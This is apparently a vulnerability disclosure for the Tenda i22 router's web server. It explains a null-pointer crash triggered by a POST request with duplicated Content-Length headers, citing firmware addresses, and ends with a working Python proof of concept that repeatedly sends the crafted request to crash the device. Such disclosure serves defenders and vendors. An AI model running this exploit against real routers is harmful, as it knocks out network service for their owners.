








# Overview
Details of the vulnerability found in the tenda router i22 V1.0.0.3 (4687).

| Firmware Name  | Firmware Version  | Download Link  |
| -------------- | ----------------- | -------------- |
| i22    | V1.0.0.3(4687)    | https://www.tenda.com.cn/download/detail-2747.html   |


# Vulnerability details
## Vulnerability trigger Location
The following vulnerability analysis and explanation are based on the i22 router with  firmware version `V1.0.0.3(4687)`.

For easier analysis, I referred to the GoAhead 2.5 source code on https://github.com/ehlalwayoUk/goahead/tree/master and modified the variable names accordingly in Ghidra. The vulnerability trigger location is at the `strlen` function call within the `websReadEvent` function, at address 0x24640.


## 2. Conditions to Satisfy
- In the websUrlParse function, the `?` in POST /goform/GetIPTV?fgHPOST/goform/SysToo allows `strchr` at `0x1b588` to get the index of the ?. Referring to the GoAhead source code, it can be seen that the information after `?` is stored in `wp->query`.   

- **Content-Length** must be written twice.
    - The first `Content-Length` should be `>= 1`. This is necessary to set `param_1 + 0xd8(wp->flags) |= 0x400` and call `websSetVar`  to set `CONTENT_LENGTH` value.
    
    - The second `Content-Length` is to set `clen = 0`. It set `param_1 + 0xe0 = 0`.
- After that, an empty line (`\r\n`) is needed to ensure the final `buf` is empty.In the `socketGets` function, reading an isolated \r\n sets `nbytes = 0`, and as a result, `*buf = 0`. The corresponding assembly location is at `0x17818`.

- Due to conditions such as nbytes = 0 being met, wp->state([wp[0x35]]) = 8 is finally set in the websGetInput function at address 0x24c00.

- At the address 0x24524 of the websReadEvent function, the wp->state([wp[0x35]]) will be switched, and the value of wp->state([wp[0x35]]) is 8, so the operation flow will eventually come to the LAB_000245d0.  

- As a result, in the `websReadEvent` function, because `wp->state = 8` and there is content in `wp->query`, both the `if` and `else if` conditions are not satisfied, leading to the else branch being executed, which triggers the vulnerability.`strlen` is called with a null pointer, which leads to a segmentation fault when dereferenced internally.

# POC

```python
import socket

host = "192.168.1.100"
port = 80
times = 0
while 1:
    times += 1
    print("times:"+str(times))
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((host, port))
    request = (
        "POST /goform/GetIPTV?fgHPOST/goform/SysToo HTTP/1.1\r\n"
        "Content-Length:1\r\n"
        "Content-Length:# \r\n"
        "\r\n"
    )
    s.send(request.encode())
    response = s.recv(4096)
    print(response.decode())
    s.close()
```

# Vulnerability Verification Screenshot
##  I22 &nbsp;&nbsp; V1.0.0.3 (4687)


# Discoverer
The vulnerability was discovered by Professor Wei Zhou's team (IoTS&P Lab) from the School of Cyber Science and Engineering at Huazhong University of Science and Technology.